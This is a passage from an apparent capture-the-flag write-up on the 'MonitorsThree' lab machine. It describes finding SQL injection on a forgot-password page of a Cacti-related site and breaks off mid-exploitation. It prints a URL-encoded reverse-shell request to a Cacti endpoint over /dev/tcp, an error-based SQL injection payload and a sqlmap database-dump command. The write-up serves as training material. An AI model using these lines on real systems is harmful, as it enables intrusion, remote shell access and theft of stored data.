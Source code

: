`http://cacti.monitorsthree.htb/cacti/include/vendor/csrf/csrf-secret.php`

`http://cacti.monitorsthree.htb/cacti/cmd_realtime.php?1+1&&%3b0%3C%26196%3Bexec%20196%3C%3E%2Fdev%2Ftcp%2F10.10.11.30%2F1674%3B%20sh%20%3C%26196%20%3E%26196%202%3E%26196`

They have these contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153315.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153335.png)

Nothing too useful to get credentials or bypass that login page, so, I went back to the main website and found the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153418.png)

We got a `Forgot Password?` site:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153441.png)

We can try different things here, let's test [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153528.png)

Not working, what about [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]]:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117153712.png)

It worked! Let's start exploitation.

# EXPLOITATION
---

Since we already know SQLI is possible on the `Forgot_password.php` site, let's use sqlmap to automatize the process, we need to capture the request using burp and use the following command:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117154018.png)

Nice, let's use:

`sqlmap -r request.req -dbms=mysql --dump`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160216.png)

Sqlmap executed very slow, so, I found out there was an error message, being the following:


`admin' and extractvalue(1,concat('~',database()))#`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250117160345.png)

Since we got an error, we can use the following payload:
